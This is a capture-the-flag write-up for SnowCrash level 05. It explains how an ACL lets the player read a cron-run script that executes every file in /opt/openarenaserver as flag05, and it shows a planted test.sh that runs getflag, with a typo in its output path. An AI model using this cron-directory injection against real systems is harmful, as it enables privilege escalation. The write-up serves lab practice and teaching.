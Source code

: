 # level 05

in this level we where provided with an email which is a file that shows a cronjob that runs a script each two minutes as flag05

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

after that we tried to read the file that contains the script and even though its access rights look like we cannot read them, we can due to Access Control Lists (ACLs) which are aditional access rights can be seen using the command getfacl 


```
level05@SnowCrash:/var/crash$ getfacl /usr/sbin/openarenaserver
getfacl: Removing leading '/' from absolute path names
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

it has defined a specific right only for the user:level05 with only read access, and after reading the file we got 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

this is a simple bash script that reads all the files in the repo /opt/openarenaserver/ and opens a new subshell and applies a limit of 5 seconds which means the lifetime of this subshell is 5 seconds and runs the bash script found in the repo in it 

```
test.sh

getflag > /vat/crash/test.txt
```

and if you read the file you'll find the flag there
